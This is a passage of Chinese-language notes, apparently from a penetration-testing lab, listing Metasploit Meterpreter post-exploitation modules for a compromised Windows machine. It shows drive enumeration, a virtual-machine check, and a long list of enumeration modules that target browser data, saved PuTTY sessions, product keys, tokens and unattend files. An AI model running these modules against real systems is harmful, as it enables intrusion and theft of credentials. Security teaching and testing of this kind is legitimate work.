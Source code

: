 gather是收集的意思。

forensics 取证

```
meterpreter > run post/windows/gather/forensics/
run post/windows/gather/forensics/browser_history  run post/windows/gather/forensics/imager
run post/windows/gather/forensics/duqu_check       run post/windows/gather/forensics/nbd_server
run post/windows/gather/forensics/enum_drives      run post/windows/gather/forensics/recovery_files

```

获取分区：

```
meterpreter > run post/windows/gather/forensics/enum_drives 

Device Name:                    Type:   Size (bytes):
------------                    -----   -------------
<Physical Drives:>
<Logical Drives:>
\\.\D:                               4702111234474983745
\\.\E:                               4702111234474983745
```

判断是否为虚拟机，

```
meterpreter > run post/windows/gather/checkvm 

[*] Checking if ADMIN-PC is a Virtual Machine ...
[+] This is a VMware Virtual Machine
```

enum 枚举

```
meterpreter > run post/windows/gather/enum_
run post/windows/gather/enum_ad_bitlocker                run post/windows/gather/enum_domains
run post/windows/gather/enum_ad_computers                run post/windows/gather/enum_emet
run post/windows/gather/enum_ad_groups                   run post/windows/gather/enum_files
run post/windows/gather/enum_ad_managedby_groups         run post/windows/gather/enum_hostfile
run post/windows/gather/enum_ad_service_principal_names  run post/windows/gather/enum_ie
run post/windows/gather/enum_ad_to_wordlist              run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_ad_user_comments            run post/windows/gather/enum_ms_product_keys
run post/windows/gather/enum_ad_users                    run post/windows/gather/enum_patches
run post/windows/gather/enum_applications                run post/windows/gather/enum_powershell_env
run post/windows/gather/enum_artifacts                   run post/windows/gather/enum_proxy
run post/windows/gather/enum_av_excluded                 run post/windows/gather/enum_putty_saved_sessions
run post/windows/gather/enum_chrome                      run post/windows/gather/enum_services
run post/windows/gather/enum_computers                   run post/windows/gather/enum_shares
run post/windows/gather/enum_db                          run post/windows/gather/enum_snmp
run post/windows/gather/enum_devices                     run post/windows/gather/enum_termserv
run post/windows/gather/enum_dirperms                    run post/windows/gather/enum_tokens
run post/windows/gather/enum_domain                      run post/windows/gather/enum_tomcat
run post/windows/gather/enum_domain_group_users          run post/windows/gather/enum_trusted_locations
run post/windows/gather/enum_domain_tokens               run post/windows/gather/enum_unattend
run post/windows/gather/enum_domain_users                

```
